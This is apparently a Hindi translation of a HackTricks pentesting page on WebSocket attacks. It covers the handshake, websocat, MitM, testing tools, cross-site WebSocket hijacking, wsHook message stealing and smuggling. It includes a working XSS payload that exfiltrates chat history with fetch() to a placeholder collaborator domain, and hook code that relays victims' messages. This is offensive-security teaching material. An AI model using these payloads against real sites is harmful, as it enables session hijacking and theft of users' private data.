 # WebSocket हमले

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## WebSockets क्या हैं

WebSocket कनेक्शन **HTTP** हैंडशेक के माध्यम से स्थापित किए जाते हैं और **लॉन्ग-लाइव्ड** डिज़ाइन किए गए हैं, जो किसी भी समय बिना सौदा सिस्टम की आवश्यकता के दोनों दिशाओं में संदेश भेजने की अनुमति देते हैं। इससे WebSockets विशेष रूप से **कम लैटेंसी या सर्वर-प्रेरित संचार** की आवश्यकता होने वाले एप्लिकेशन्स के लिए अधिक फायदेमंद होते हैं, जैसे कि लाइव वित्तीय डेटा स्ट्रीम।

### WebSocket कनेक्शन की स्थापना

WebSocket कनेक्शन स्थापित करने के विस्तृत विवरण को [**यहाँ**](https://infosecwriteups.com/cross-site-websocket-hijacking-cswsh-ce2a6b0747fc) देखा जा सकता है। सारांश में, WebSocket कनेक्शन आम तौर पर नीचे दिखाए गए क्लाइंट-साइड जावास्क्रिप्ट के माध्यम से प्रारंभ किए जाते हैं:
```javascript
var ws = new WebSocket("wss://normal-website.com/ws");
```
`wss` प्रोटोकॉल एक **TLS** सुरक्षित WebSocket कनेक्शन को दर्शाता है, जबकि `ws` एक **असुरक्षित** कनेक्शन को दर्शाता है।

कनेक्शन स्थापना के दौरान, ब्राउज़र और सर्वर के बीच एक हैंडशेक किया जाता है HTTP के माध्यम से। हैंडशेक प्रक्रिया में, ब्राउज़र एक अनुरोध भेजता है और सर्वर का प्रतिक्रिया देता है, जैसा निम्नलिखित उदाहरणों में दिखाया गया है:

ब्राउज़र एक हैंडशेक अनुरोध भेजता है:
```javascript
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```
सर्वर का हैंडशेक प्रतिक्रिया:
```javascript
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```
**WebSocket हैंडशेक की मुख्य बिंदु:**

- `Connection` और `Upgrade` हेडर WebSocket हैंडशेक की शुरुआत की संकेत करते हैं।
- `Sec-WebSocket-Version` हेडर वांछित WebSocket प्रोटोकॉल संस्करण को दर्शाता है, आम तौर पर `13`।
- `Sec-WebSocket-Key` हेडर में एक Base64-कोडित यादृच्छिक मान भेजा जाता है, जिससे प्रत्येक हैंडशेक अद्वितीय होता है, जो कैशिंग प्रॉक्सी के साथ समस्याओं को रोकने में मदद करता है। यह मान प्रमाणीकरण के लिए नहीं है बल्कि यह सुनिश्चित करने के लिए है कि प्रतिक्रिया किसी गलत कॉन्फ़िगर किए गए सर्वर या कैश द्वारा उत्पन्न नहीं है।
- सर्वर की प्रतिक्रिया में `Sec-WebSocket-Accept` हेडर `Sec-WebSocket-Key` का हैश है, जो सर्वर की इच्छा की पुष्टि करता है कि वह एक WebSocket कनेक्शन खोलना चाहता है।

ये विशेषताएँ सुनिश्चित करती हैं कि हैंडशेक प्रक्रिया सुरक्षित और विश्वसनीय है, जो अच्छी तरह से वास्तविक समय में संचार के लिए मार्ग खोलती है।
```bash
websocat --insecure wss://10.10.10.10:8000 -v
```
या एक वेबसोकेट सर्वर बनाने के लिए:
```bash
websocat -s 0.0.0.0:8000 #Listen in port 8000
```
### MitM websocket connections

यदि आपको पता चलता है कि ग्राहक आपके मौजूदा स्थानीय नेटवर्क से **HTTP websocket** से कनेक्ट हैं, तो आप [ARP Spoofing Attack](../generic-methodologies-and-resources/pentesting-network/#arp-spoofing) का प्रयास कर सकते हैं ग्राहक और सर्वर के बीच MitM हमला करने के लिए।\
एक बार जब ग्राहक आपसे कनेक्ट होने की कोशिश कर रहा है तो आप निम्नलिखित का उपयोग कर सकते हैं:
```bash
websocat -E --insecure --text ws-listen:0.0.0.0:8000 wss://10.10.10.10:8000 -v
```
### वेबसॉकेट्स जांच

आप **टूल** [**https://github.com/PalindromeLabs/STEWS**](https://github.com/PalindromeLabs/STEWS) **का उपयोग कर सकते हैं ताकि वेबसॉकेट्स में ज्ञात** **कमजोरियों की खोज, फिंगरप्रिंट और खोज** कर सकें।

### वेबसॉकेट डीबग टूल्स

* **Burp Suite** नियमित HTTP संचार के लिए जैसे ही करता है, उसी तरह से MitM वेबसॉकेट्स संचार का समर्थन करता है।
* [**socketsleuth**](https://github.com/snyk/socketsleuth) **Burp Suite एक्सटेंशन** आपको **हिस्ट्री** प्राप्त करने, **इंटरसेप्शन नियम** सेट करने, **मैच और रिप्लेस** नियम उपयोग करने, **Intruder** और **AutoRepeater** का उपयोग करके Burp में वेबसॉकेट संचार को बेहतर ढंग से प्रबंधित करने देगा।
* [**WSSiP**](https://github.com/nccgroup/wssip)**:** "**WebSocket/Socket.io Proxy**" के लिए छोटा, यह टूल, जो Node.js में लिखा गया है, एक उपयोगकर्ता इंटरफेस प्रदान करता है ताकि वह सभी वेबसॉकेट और सॉकेट.आईओ संचारों को **कैप्चर, इंटरसेप्ट, कस्टम** संदेश भेज सके और क्लाइंट और सर्वर के बीच सभी वेबसॉकेट और सॉकेट.आईओ संचारों को देख सके।
* [**wsrepl**](https://github.com/doyensec/wsrepl) एक **इंटरैक्टिव वेबसॉकेट REPL** है जो विशेष रूप से प्रवेशन परीक्षण के लिए डिज़ाइन किया गया है। यह एक इंटरफेस प्रदान करता है जिसका उपयोग **आने वाले वेबसॉकेट संदेशों को देखने और नए भेजने** के लिए किया जा सकता है, इस संचार को **स्वचालित** करने के लिए एक सरल उपकरण प्रदान करता है।&#x20;
* [**https://websocketking.com/**](https://websocketking.com/) यह एक **वेब है जिसका उपयोग** करके अन्य वेब्स के साथ **वेबसॉकेट्स** का उपयोग किया जा सकता है।
* [**https://hoppscotch.io/realtime/websocket**](https://hoppscotch.io/realtime/websocket) अन्य प्रकार के संचार/प्रोटोकॉलों के बीच, यह एक **वेब है जिसका उपयोग** करके अन्य वेब्स के साथ **वेबसॉकेट्स** का उपयोग किया जा सकता है।

## वेबसॉकेट लैब

[**Burp-Suite-Extender-Montoya-Course**](https://github.com/federicodotta/Burp-Suite-Extender-Montoya-Course) में आपको एक कोड मिलेगा जिसका उपयोग करके वेबसॉकेट्स का उपयोग करके एक वेब लॉन्च करने के लिए और [**इस पोस्ट**](https://security.humanativaspa.it/extending-burp-suite-for-fun-and-profit-the-montoya-way-part-3/) में आपको एक स्पष्टीकरण मिलेगा।

## क्रॉस-साइट वेबसॉकेट हाइजैकिंग (CSWSH)

**क्रॉस-साइट वेबसॉकेट हाइजैकिंग**, जिसे **क्रॉस-ऑरिजिन वेबसॉकेट हाइजैकिंग** के रूप में भी जाना जाता है, **[क्रॉस-साइट रिक्वेस्ट फॉर्जरी (CSRF)](csrf-cross-site-request-forgery.md)** का एक विशेष मामला माना जाता है जो वेबसॉकेट हैंडशेक को प्रभावित करता है। यह कमजोरी उत्पन्न होती है जब वेबसॉकेट हैंडशेक केवल **HTTP कुकीज़** के माध्यम से प्रमाणीकृत होते हैं बिना **CSRF टोकन** या समान सुरक्षा उपायों के।

हमलावर एक **कुकर्म वेब पृष्ठ** को होस्ट करके इसे उत्पन्न कर सकते हैं जो एक कमजोर एप्लिकेशन के लिए एक क्रॉस-साइट वेबसॉकेट कनेक्शन प्रारंभ करता है। इस परिणामस्वरूप, यह कनेक्शन उपभोक्ता के सत्र का हिस्सा के रूप में व्यावसायिक अभाव से उपयोग किया जाता है, सत्र प्रबंधन तंत्र में CSRF सुरक्षा की कमी का शोषण करता है।

### सरल हमला

ध्यान दें कि **वेबसॉकेट** कनेक्शन स्थापित करते समय **कुकी** सर्वर को **भेजी जाती है**। **सर्वर** इसे **हर विशिष्ट उपयोगकर्ता को उसके भेजे गए कुकी के आधार पर उसके वेबसॉकेट सत्र से संबंधित करने के लिए** उपयोग कर रहा हो सकता है।

फिर, यदि **उदाहरण** के लिए **वेबसॉकेट सर्वर** एक उपयोगकर्ता की बातचीत का इतिहास वापस भेजता है अगर एक संदेश के साथ "**READY"** भेजा जाता है, तो एक **सरल XSS** जो कनेक्शन स्थापित करता है (कुकी विकल्प उपभोक्ता को अधिकृत करने के लिए **स्वचालित रूप से भेजी जाएगी**) "**READY**" भेजने के बाद बातचीत का इतिहास **पुनः प्राप्त** करने में सक्षम होगा।
```markup
<script>
websocket = new WebSocket('wss://your-websocket-URL')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
//Exfiltrate the confidential information to attackers server
fetch('https://your-collaborator-domain/?'+event.data, {mode: 'no-cors'})
}
</script>
```
### क्रॉस ऑरिजिन + कुकी एक विभिन्न सबडोमेन के साथ

इस ब्लॉग पोस्ट [https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/](https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/) में हमलावर ने **डोमेन के एक सबडोमेन में अर्बिट्रे जावास्क्रिप्ट को निषेचित करने** को सफलतापूर्वक किया। क्योंकि यह एक **सबडोमेन** था, इसलिए **कुकी** भेजी जा रही थी, और क्योंकि **वेबसॉकेट ने मूल्यांकन सही से नहीं किया था**, इससे उसके साथ संवाद करना और **उससे टोकन चुराना** संभव था।

### उपयोगकर्ता से डेटा चुराना

उस वेब एप्लिकेशन की प्रतिरूपण करना है (उदाहरण के लिए .html फ़ाइलें) और स्क्रिप्ट के अंदर जहां वेबसॉकेट संचार हो रहा है, उसमें इस कोड को जोड़ें:
```javascript
//This is the script tag to load the websocket hooker
<script src='wsHook.js'></script>

//These are the functions that are gonig to be executed before a message
//is sent by the client or received from the server
//These code must be between some <script> tags or inside a .js file
wsHook.before = function(data, url) {
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "client_msg?m="+data, true);
xhttp.send();
}
wsHook.after = function(messageEvent, url, wsObject) {
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "server_msg?m="+messageEvent.data, true);
xhttp.send();
return messageEvent;
}
```
अब [https://github.com/skepticfx/wshook](https://github.com/skepticfx/wshook) से `wsHook.js` फ़ाइल डाउनलोड करें और **वेब फ़ाइलों वाले फ़ोल्डर में सहेजें**।\
वेब एप्लिकेशन को उजागर करके और एक उपयोगकर्ता को इससे कनेक्ट कराने के बाद आप websocket के माध्यम से भेजे गए और प्राप्त किए गए संदेश चुरा सकेंगे:
```javascript
sudo python3 -m http.server 80
```
## रेस कंडीशन

वेबसॉकेट्स में रेस कंडीशन भी एक चीज है, [अधिक जानने के लिए यह जानकारी देखें](race-condition.md#rc-in-websockets)।

## अन्य सुरक्षा दोष

वेब सॉकेट्स एक तंत्र हैं **सर्वर साइड और क्लाइंट साइड को डेटा भेजने के लिए**, सर्वर और क्लाइंट जानकारी को कैसे संभालते हैं इस पर निर्भर करता है, **वेब सॉकेट्स का उपयोग किसी भी अन्य सुरक्षा दोष को भेजने के लिए किया जा सकता है जैसे कि XSS, SQLi या किसी अन्य सामान्य वेब दोष का उपयोग करके एक उपयोगकर्ता के वेबसॉकेट से इनपुट का उपयोग करके।**

## **वेबसॉकेट स्मग्लिंग**

यह सुरक्षा दोष आपको **रिवर्स प्रॉक्सी प्रतिबंधों को उल्लंघन करने** की अनुमति देता है जिसे उन्हें यह मानने के लिए मजबूर करता है कि एक **वेबसॉकेट संचार स्थापित हो गया था** (यदि यह सच नहीं है)। यह एक हमलावर को **छिपी हुई एंडपॉइंट्स तक पहुंचने** की अनुमति देता है। अधिक जानकारी के लिए निम्नलिखित पृष्ठ की जांच करें:

{% content-ref url="h2c-smuggling.md" %}
[h2c-smuggling.md](h2c-smuggling.md)
{% endcontent-ref %}

## संदर्भ

* [https://portswigger.net/web-security/websockets#intercepting-and-modifying-websocket-messages](https://portswigger.net/web-security/websockets#intercepting-and-modifying-websocket-messages)

